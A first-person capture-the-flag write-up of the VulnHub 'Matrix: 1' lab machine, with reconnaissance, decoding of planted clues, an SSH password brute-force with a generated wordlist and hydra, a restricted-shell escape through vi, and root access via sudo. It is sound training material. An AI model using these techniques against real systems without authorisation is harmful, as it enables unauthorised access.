

[vulnhub - easy] matrix: 1
-----------------------

The first thing I do is scan the host-only network to get the machine's ip:

```
┌──(j㉿kali)-[~/Desktop/ptn/matrix-1]
└─$ fping -aqg 192.168.56.100/24
192.168.56.1
192.168.56.100
192.168.56.103
```

Then a nmap scan to see what's up on that ip:

```
┌──(j㉿kali)-[~/Desktop/ptn/matrix-1]
└─$ nmap -sC -sV -oN nmap-info.txt 192.168.56.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-10 12:12 -03
Nmap scan report for 192.168.56.103
Host is up (0.000077s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c8bc77b48dbdb0c4b6869807b124e49 (RSA)
|   256 496c2338fb79cbe0b3feb2f432a2708e (ECDSA)
|_  256 53276f04edd1e781fb009854e600844a (ED25519)
80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-title: Welcome in Matrix
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-title: Welcome in Matrix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.14 seconds
```

When I access the website being served on port 80 and this is what I found:


I dig a bit the website's source, check for cookies and try to reach the most obvious paths to no avail, so I decide to use gobuster to find directories:

```
┌──(j㉿kali)-[~/Desktop/ptn/matrix-1]
└─$ gobuster dir -u http://192.168.56.103/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.103/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2023/01/10 12:28:10 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 0] [--> /assets/]
/index.html           (Status: 200) [Size: 3734]
Progress: 262992 / 262995 (100.00%)
===============================================================
2023/01/10 12:31:12 Finished
===============================================================
```

I then go to http://192.168.56.103/assets/ to check up what's on this folder. After poking a bit, I find the following file in http://192.168.56.103/assets/img/:



And the image file itself is:


No relevant information in the image's metadata, the important stuff is in its title, so I follow the rabbit and reach for port 31337 with my browser and this is what I find:


Then I view the page's source code and find this base64-encoded text commented out:

```
ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=
```

It reads:

```
┌──(j㉿kali)-[~/Desktop/ptn/matrix-1]
└─$ echo "ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=" | base64 -d 
echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix
```

So I access http://192.168.56.103:31337/Cypher.matrix and download the Cypher.matrix file. It reads:

```
┌──(j㉿kali)-[~/Desktop/ptn/matrix-1]
└─$ cat Cypher.matrix  
+++++ ++++[ ->+++ +++++ +<]>+ +++++ ++.<+ +++[- >++++ <]>++ ++++. +++++
+.<++ +++++ ++[-> ----- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]> +++.-
-.<++ +[->+ ++<]> ++++. <++++ ++++[ ->--- ----- <]>-- ----- ----- --.<+
+++++ ++[-> +++++ +++<] >++++ +.+++ +++++ +.+++ +++.< +++[- >---< ]>---
---.< +++[- >+++< ]>+++ +.<++ +++++ ++[-> ----- ----< ]>-.< +++++ +++[-
>++++ ++++< ]>+++ +++++ +.+++ ++.++ ++++. ----- .<+++ +++++ [->-- -----
-<]>- ----- ----- ----. <++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ +.<++
+[->- --<]> ---.< ++++[ ->+++ +<]>+ ++.-- .---- ----- .<+++ [->++ +<]>+
+++++ .<+++ +++++ +[->- ----- ---<] >---- ---.< +++++ +++[- >++++ ++++<
]>+.< ++++[ ->+++ +<]>+ +.<++ +++++ ++[-> ----- ----< ]>--. <++++ ++++[
->+++ +++++ <]>++ +++++ .<+++ [->++ +<]>+ ++++. <++++ [->-- --<]> .<+++
[->++ +<]>+ ++++. +.<++ +++++ +[->- ----- --<]> ----- ---.< +++[- >---<
]>--- .<+++ +++++ +[->+ +++++ +++<] >++++ ++.<+ ++[-> ---<] >---- -.<++
+[->+ ++<]> ++.<+ ++[-> ---<] >---. <++++ ++++[ ->--- ----- <]>-- -----
-.<++ +++++ +[->+ +++++ ++<]> +++++ +++++ +++++ +.<++ +[->- --<]> -----
-.<++ ++[-> ++++< ]>++. .++++ .---- ----. +++.< +++[- >---< ]>--- --.<+
+++++ ++[-> ----- ---<] >---- .<+++ +++++ [->++ +++++ +<]>+ +++++ +++++
.<+++ ++++[ ->--- ----< ]>--- ----- -.<++ +++++ [->++ +++++ <]>++ +++++
+++.. <++++ +++[- >---- ---<] >---- ----- --.<+ +++++ ++[-> +++++ +++<]
>++.< +++++ [->-- ---<] >-..< +++++ +++[- >---- ----< ]>--- ----- ---.-
--.<+ +++++ ++[-> +++++ +++<] >++++ .<+++ ++[-> +++++ <]>++ +++++ +.+++
++.<+ ++[-> ---<] >---- --.<+ +++++ [->-- ----< ]>--- ----. <++++ +[->-
----< ]>-.< +++++ [->++ +++<] >++++ ++++. <++++ +[->+ ++++< ]>+++ +++++
+.<++ ++[-> ++++< ]>+.+ .<+++ +[->- ---<] >---- .<+++ [->++ +<]>+ +..<+
++[-> +++<] >++++ .<+++ +++++ [->-- ----- -<]>- ----- ----- --.<+ ++[->
---<] >---. <++++ ++[-> +++++ +<]>+ ++++. <++++ ++[-> ----- -<]>- ----.
<++++ ++++[ ->+++ +++++ <]>++ ++++. +++++ ++++. +++.< +++[- >---< ]>--.
--.<+ ++[-> +++<] >++++ ++.<+ +++++ +++[- >---- ----- <]>-- -.<++ +++++
+[->+ +++++ ++<]> +++++ +++++ ++.<+ ++[-> ---<] >--.< ++++[ ->+++ +<]>+
+.+.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ +++[- >++++ +++++ <]>++
+.+++ .---- ----. <++++ ++++[ ->--- ----- <]>-- ----- ----- ---.< +++++
+++[- >++++ ++++< ]>+++ .++++ +.--- ----. <++++ [->++ ++<]> +.<++ ++[->
----< ]>-.+ +.<++ ++[-> ++++< ]>+.< +++[- >---< ]>--- ---.< +++[- >+++<
]>+++ +.+.< +++++ ++++[ ->--- ----- -<]>- -.<++ +++++ ++[-> +++++ ++++<
]>++. ----. <++++ ++++[ ->--- ----- <]>-- ----- ----- ---.< +++++ +[->+
+++++ <]>++ +++.< +++++ +[->- ----- <]>-- ---.< +++++ +++[- >++++ ++++<
]>+++ +++++ .---- ---.< ++++[ ->+++ +<]>+ ++++. <++++ [->-- --<]> -.<++
+++++ +[->- ----- --<]> ----- .<+++ +++++ +[->+ +++++ +++<] >+.<+ ++[->
---<] >---- .<+++ [->++ +<]>+ +.--- -.<++ +[->- --<]> --.++ .++.- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ ++++[ ->+++ +++++ +<]>+ +++++ .<+++
[->-- -<]>- ----. <+++[ ->+++ <]>++ .<+++ [->-- -<]>- --.<+ +++++ ++[->
----- ---<] >---- ----. <++++ +++[- >++++ +++<] >++++ +++.. <++++ +++[-
>---- ---<] >---- ---.< +++++ ++++[ ->+++ +++++ +<]>+ ++.-- .++++ +++.<
+++++ ++++[ ->--- ----- -<]>- ----- --.<+ +++++ +++[- >++++ +++++ <]>++
+++++ +.<++ +[->- --<]> -.+++ +++.- --.<+ +++++ +++[- >---- ----- <]>-.
<++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ .++++ +++++ .<+++ +[->- ---<]
>--.+ +++++ ++.<+ +++++ ++[-> ----- ---<] >---- ----- --.<+ +++++ ++[->
+++++ +++<] >+.<+ ++[-> +++<] >++++ .<+++ [->-- -<]>- .<+++ +++++ [->--
----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++ +++.< +++[-
>---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]>
+++.< +++[- >+++< ]>+++ .+++. .<+++ [->-- -<]>- ---.- -.<++ ++[-> ++++<
]>+.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ +++[- >++++ +++++ <]>++
.+.-- .---- ----- .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- -----
.<+++ +++++ [->++ +++++ +<]>+ +++++ +++++ ++++. ----- ----. <++++ ++++[
->--- ----- <]>-- ----. <++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ ++++.
<+++[ ->--- <]>-- ----. <++++ [->++ ++<]> ++..+ +++.- ----- --.++ +.<++
+[->- --<]> ----- .<+++ ++++[ ->--- ----< ]>--- --.<+ ++++[ ->--- --<]>
----- ---.- --.<
```

It is a brainfuck-encoded text message that reads:

```
You can enter into matrix as guest, with password k1ll0rXX

Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password
```

So that means I'll have to fill in the last two chars. I then proceed to create a python script to generate a list of possible passwords for bruteforcing with hydra. I'll ignore special chars and use only letters (upper and lower) and numbers:

```python
string="k1ll0r"

with open('list.txt', 'a') as f:
    for i in range(0, 10):
        for j in range(0, 10):
            f.write(string+str(i)+str(j)+'\n')

        for k in range(65, 91):
            f.write(string+str(chr(k))+str(i) + "\n")
            f.write(string+str(i)+str(chr(k)) + "\n")
            f.write(string+str(chr(k))+str(chr(k)) + "\n")


        for l in range(97, 123):
            f.write(string+str(chr(l))+str(i) + "\n")
            f.write(string+str(i)+str(chr(l)) + "\n")
            f.write(string+str(chr(l))+str(chr(l)) + "\n")


    for i in range(65, 91):
        for j in range(97, 123):
            f.write(string+str(chr(i))+str(chr(j)) + "\n")
            f.write(string+str(chr(j))+str(chr(i)) + "\n")
```

That creates a file named "list.txt" with possible passwords. I then use hydra to bruteforce ssh:

```
hydra -l guest -P list.txt 192.168.56.103 ssh
```

After running for a while, the following password works:

```
[22][ssh] host: 192.168.56.103   login: guest   password: k1ll0r7n
```

So I log into the machine via ssh and can't run any commands:

```
guest@porteus:~$ ls
-rbash: /bin/ls: restricted: cannot specify `/' in command names
guest@porteus:~$ whoami
-rbash: whoami: command not found
guest@porteus:~$ cd ..
-rbash: cd: restricted
guest@porteus:~$ cat /etc/passwd
-rbash: cat: command not found
```

So it seems i'm running a restricted shell, but there's a way of escaping it: using the TAB button. When I type in "ls /" and press TAB, the available directories in "/" are shown to me, so I type in "ls /home/guest/", press TAB and this is what I get:

```
guest@porteus:~$ ls /home/guest/
.Xauthority    .bashrc        .dbus/         .gnupg/        Desktop/       Music/         Videos/
.bash_history  .cache/        .esd_auth      .local/        Documents/     Pictures/      prog/
.bash_profile  .config/       .gksu.lock     .ssh/          Downloads/     Public/
```

The directory that stands out in this listing is the "prog", so I type in "ls /home/guest/prog/" and when I press TAB it automatically fills in "ls /home/guest/prog/vi". Could that mean I'm allowed to run vi? YES! (afterwards I learn that I could have just typed in "echo $PATH" and I would've found out guest's path is /home/gues/prog).

A funny thing about vi is that there's a way of running commands from inside a vi prompt, by typing ":!\[COMMAND\]", so I do it: enter vi command and type in ":!/bin/bash" to escape it:

```
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
bash: grep: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
guest@porteus:~$ 
```

The next thing I do is add /bin and /usr/bin to my PATH variable: 

```
guest@porteus:~$ export PATH=/bin:/usr/bin:$PATH
guest@porteus:~$ echo $PATH
/bin:/usr/bin:/home/guest/prog
```

Next up I try escalating privilege. I type in "sudo -l":

```
guest@porteus:~$ sudo -l
User guest may run the following commands on porteus:
    (ALL) ALL
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
```

Then I run "sudo su" and enter the same credential used for ssh, get root and get the flag:

```
root@porteus:/home/guest# cat /root/flag.txt 
   _,-.                                                             
,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE
|_,-O__`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE
|`-._\`.__ `_.           IN THE MATRIX AND BEAT OFF                 
|`-._`-.\,-'_|  _,-'.                                               
     `-.|.-' | |`.-'|_     WHAT                                     
        |      |_|,-'_`.                                            
              |-._,-'  |     NO, ME NEITHER                         
         jrei | |    _,'                                            
              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION    

```